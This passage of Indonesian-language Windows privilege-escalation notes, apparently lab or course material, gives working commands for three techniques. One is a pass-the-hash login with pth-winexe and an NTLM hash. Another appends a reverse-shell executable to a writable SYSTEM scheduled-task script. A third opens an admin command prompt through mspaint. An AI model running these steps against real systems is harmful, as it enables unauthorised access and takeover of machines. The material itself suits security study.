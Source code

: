 Kalau belum login sebagai admin tambahkan paramter --system
```
pth-winexe --system -U 'admin@aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0' //192.168.1.7 cmd.exe
```


## Scheduled Task
Windows mengizinkan kita untuk melakukan penjadwalan task, sama seperti cron job di linux. Cara untuk mencari ini dengan manual. 

contoh file schedules contoh nama filenya RunThis.ps1
```
# This script will clean up all your old dev logs every minute.
# To avoid permissions issues, run as SYSTEM (should probably fix this later)

Remove-Item C:\DevTools\*.log

```

Lalu cek permissionnya
```
accesschk.exe /accepteula -quv user RunThis.ps1
```

kalau ada WRITE berarti kita bisa masukkan perintah untuk menjalankan reverse shell
```
copy RunThis.ps1 C:\Temp\    #backup file
echo C:\PrivEsc\reverse.exe >> RunThis.ps1 #copy path file to RunThis.ps1
```
Dan tunggu sampai windows mengeksekusi 

## Insecure GUI Apps (Citrix Method)
Pada versi windows yang lama, user bisa di granted untuk menjalanakn GUI apps dengan privilege administrator.

Terdapat berbagai ceara untuk spawn command prompts (reverse shell) dari GUI apps, salah satunya menggunakan fungsi native Windows

#### Recon
```
C:\DevTools>tasklist /V | findstr mspaint.exe
tasklist /V | findstr mspaint.exe
mspaint.exe                   1748 Console                    2     27.924 K Running         DESKTOP-FHFUEUQ\admin                                   0:00:00 Untitled - Paint 
```
Command diatas digunakan untuk melihat program dijalankan oleh siapa, dalam hal ini mspaint.exe dijalankan oleh admin. 

Jika RDP tersedia, maka kita bisa buka mspaint.exe lalu open file cmd, maka kita akan membuka cmd sebagai administrator.

![[insecureGui.PNG]]

## Startup Apps
Setiap user dapat menentukan aplikasi apa aja yang otomatis dijalankan ketika mereka login dengan cara menempatkan shortcut pada directory tertentu
